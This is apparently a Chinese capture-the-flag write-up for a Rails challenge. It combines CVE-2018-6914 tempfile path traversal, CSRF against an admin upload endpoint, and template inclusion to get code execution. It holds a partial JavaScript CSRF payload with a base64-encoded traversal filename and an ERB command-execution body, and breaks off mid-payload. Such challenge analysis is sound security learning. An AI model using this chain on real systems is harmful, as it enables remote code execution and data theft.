 后面 hint1给了文件结构
```
views
|-- devise
|   |-- confirmations
|   |-- mailer
|   |-- passwords
|   |-- registrations
|   |   `-- new.html.erb
|   |-- sessions
|   |   `-- new.html.erb
|   |-- shared
|   `-- unlocks
|-- file
|-- home
|   |-- Alphatest.erb
|   |-- addtest.erb
|   |-- home.erb
|   |-- index.html.erb
|   |-- publiclist.erb
|   |-- share.erb
|   `-- upload.erb
|-- layouts
|   |-- application.html.erb
|   |-- mailer.html.erb
|   `-- mailer.text.erb
`-- recommend
     `-- show.erb
```

hint2给了一个主页的代码
`<%= render template: "home/"+params[:page] %>`
参考[这篇文章](http://blog.neargle.com/SecNewsBak/drops/Ruby%20on%20Rails%20%E5%8A%A8%E6%80%81%E6%B8%B2%E6%9F%93%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20%28CVE.html)
尝试跨目录包含文件失败，应该是只能包含home目录下的文件

hint3给了ruby版本2.5.0
通过查找ruby版本号，结合robots代码，主页代码和目录结构，可以确定要利用的是这个CVE：
CVE-2018-6914: Unintentional file and directory creation with directory traversal in tempfile and tmpdir
大概意思就是在Tempfile 创建文件时如果传入(../)就能创建任意目录或文件
想到可以传个文件到home下，结合主页的文件包含，即可RCE

整个思路就很清晰了：
1. CSRF 让admin调用/file/upload 接口上传带有恶意文件名的文件
2. Tmpfile漏洞使得文件生成在/views/home/目录下，但是新生成的文件名有部分是随机的
3. CSRF 调用/file/Alpha_test 接口把文件分配到自己的id下，在/Alphatest拿到生成的文件名
4. 主页文件包含，RCE

于是开始了艰难的构造payload
最后上传的payload如下：
```html
<script type="text/javascript" charset="utf-8" src="http://code.jquery.com/jquery-1.11.1.min.js"></script>
<script>
function upload(i) {
var test=$('meta').eq(1).attr("content");
var url="/file/upload";
  var data="-----------------------------13025814701038468772945051835\x0d\x0a\
Content-Disposition: form-data; name=\"file[myfile]\"; filename=\"Li4vLi4vYXBwL3ZpZXdzL2hvbWUvZGUxdGF4aXNoaXIuZXJic3MuZXJi\"\x0d\x0a\
Content-Type: application/text\x0d\x0a\
\x0d\x0a\
PCU9IGBjYXQgL2ZsYWdgICU+\x0d\x0a\
-----------------------------13025814701038468772945051835\x0d\x0a\
Content-Disposition: form-data; name=\"file[context]\"\x0d\x0a\
```